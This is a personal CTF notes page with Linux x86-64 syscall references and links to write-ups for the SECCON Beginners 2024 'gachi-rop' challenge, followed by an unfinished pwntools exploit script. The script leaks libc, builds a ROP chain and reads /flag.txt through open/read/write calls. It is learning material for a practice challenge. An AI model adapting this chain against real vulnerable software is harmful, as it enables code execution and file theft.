 # ROP

# Linux x86 (x64) syscall
- https://www.mztn.org/lxasm64/x86_x64_table.html#google_vignette
- https://manpages.ubuntu.com/manpages/noble/ja/man2/syscall.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/syscalls.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/open.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/read.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/write.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/close.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/getdents.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/exit.2.html
- [呼出規約](https://ja.wikipedia.org/wiki/%E5%91%BC%E5%87%BA%E8%A6%8F%E7%B4%84)

# SECCON_Beginners_CTF_2024/pwnable/gachi-rop
- https://gitlab.mma.club.uec.ac.jp/mmabeginners/seccon-beginners-ctf-2024/-/blob/main/pwnable/gachi-rop/README.md
- https://github.com/satoki/ctf4b_2024_satoki_writeups/tree/main/pwnable/gachi-rop
- https://kashiwaba-yuki.com/ctf-pwn-gachi-rop
- https://qiita.com/toha/items/65cfc6144128c5988e22#gachi-rop

```bash
sudo apt install patchelf -y
```
## 解法 (TODO: 作成中)
```python
#!/usr/bin/env python3
from pwn import *
exe = context.binary = ELF(args.EXE or './gachi-rop')
# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
gdbscript = '''
tbreak main
tbreak *main+134
continue
'''.format(**locals())
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No
io = start()
io.recvuntil(b'system@')
system_addr = int(io.readline().strip(), 16)
libc.address = system_addr - libc.symbols['system']
log.info("system addr: " + hex(system_addr))
log.info("libc base addr: " + hex(libc.address))
# payload = cyclic(300)
# log.info("offset: " + str(cyclic_find("gaaahaaa")))
# 0x0000000000045eb0: pop rax; ret;
pop_rax = 0x0000000000045eb0 + libc.address
# 0x000000000002a3e5 : pop rdi ; ret
pop_rdi = 0x000000000002a3e5 + libc.address
# 0x000000000002be51 : pop rsi ; ret
pop_rsi = 0x000000000002be51 + libc.address
# 0x000000000011f2e7 : pop rdx ; pop r12 ; ret
pop_rdx_pop_r12 = 0x000000000011f2e7 + libc.address
# 0x000000000003d1ee : pop rcx ; ret
pop_rcx = 0x000000000003d1ee + libc.address
# 0x0000000000041563 : push rax ; ret
push_rax = 0x0000000000041563 + libc.address
# 0x0000000000029db4 : syscall
syscall = 0x0000000000029db4 + libc.address
# pwndbg> rop --grep 'mov qword ptr \\[...], ... ; ret' -- --depth=4
# 0x0000000000039bf7 : mov qword ptr [rax], rdx ; ret
# 0x000000000018d560 : mov qword ptr [rcx], rdx ; ret
mov_ptr_rcx_rdx = 0x000000000018d560 + libc.address
# 0x00000000000bfc76 : mov qword ptr [rdi], rcx ; ret
# 0x00000000000bfc63 : mov qword ptr [rdi], rdx ; ret
# 0x000000000003a410 : mov qword ptr [rdx], rax ; ret
mov_ptr_rdx_rax = 0x000000000003a410
# 0x00000000000b0fc1 : mov qword ptr [rdx], rcx ; ret
# 0x0000000000141c51 : mov qword ptr [rsi], rdi ; ret
# 0x000000000005652a : mov qword ptr [rsi], rdx ; ret
# pwndbg> rop --grep 'mov r.., r.. ; ret' -- --depth 4
# 0x0000000000040772 : mov rax, r10 ; ret
# 0x00000000000abc5c : mov rax, r11 ; ret
# 0x000000000005a171 : mov rax, rdi ; ret
# 0x00000000000546ad : mov rax, rdx ; ret
# 0x000000000005a0b8 : mov rax, rsi ; ret
# 0x000000000005a120 : mov rsp, rdx ; ret

# 0x000000000014a1b5 : xchg edi, eax ; ret
xchg_edi_eax = 0x000000000014a1b5 + libc.address;

# syscall#: rax, retval: rax
# arg#: rdi rsi rdx r10 r8 r9 

# ssize_t read(int fd, void *buf, size_t count); # syscall#: 0
# int open(const char *buf, int flags); # syscall#: 2
# fd = open(buf, O_RDONLY)
# ssize_t getdents64(int fd, void *dirp, size_t count); # syscall#: 217
# getdents64(fd, out, count)
# ssize_t write(int fd, const void *buf, size_t count); # syscall#: 1
# write(0, buf, count)
# void _exit(int status);

# 0x404000           0x405000 rw-p     1000   3000 /mnt/e/work/ctf/SECCON_Beginners_CTF_2024/pwnable/gachi-rop/gachi-rop
buf = 0x404000
payload = (
    b'A'*24 +
    # write "flag.txt" to 0x404000
    p64(pop_rcx) + p64(buf) +
    p64(pop_rdx_pop_r12) + b'/flag.tx' + p64(0xdeadbeefcafebabe) +
    p64(mov_ptr_rcx_rdx) +
    # write "\x00"*8 to 0x404008
    p64(pop_rcx) + p64(buf+0x8) +
    p64(pop_rdx_pop_r12) + b't' + b'\x00'*7 + p64(0xdeadbeefcafebabe) +
    p64(mov_ptr_rcx_rdx) +
    # syscall#: rax, retval: rax
    # arg#: rdi rsi rdx r10 r8 r9 
    # int open(const char *buf, int flags); # syscall#: 2
    p64(pop_rdi) + p64(buf) + # arg1
    p64(pop_rsi) + p64(0) + # arg2
    p64(libc.symbols['open']) +
    # ssize_t read(int fd, void *buf, size_t count); # syscall#: 0
    p64(xchg_edi_eax) + # arg1
    p64(pop_rsi) + p64(buf+0x100) + # arg2
    p64(pop_rdx_pop_r12) + p64(50) + p64(0xdeadbeefcafebabe) + # arg3
    p64(libc.symbols['read']) +
    # int close(int fd);
    p64(pop_rdi) + p64(0) + # arg1
    p64(libc.symbols['close']) +
    # write(0, buf, count)
    p64(pop_rdi) + p64(1) + # arg1
    p64(pop_rsi) + p64(buf+0x100) + # arg2
    p64(pop_rdx_pop_r12) + p64(50) + p64(0xdeadbeefcafebabe) + # arg3
    p64(libc.symbols['write']) +
    # int close(int fd);
    p64(pop_rdi) + p64(1) + # arg1
    p64(libc.symbols['close']) +
    # void _exit(int status);
    p64(pop_rdi) + p64(0) + # arg1
    p64(libc.symbols['exit'])
)
io.sendlineafter(b'Name: ', payload)
log.info(io.recvall().decode(errors="ignore"))
#io.interactive()
```
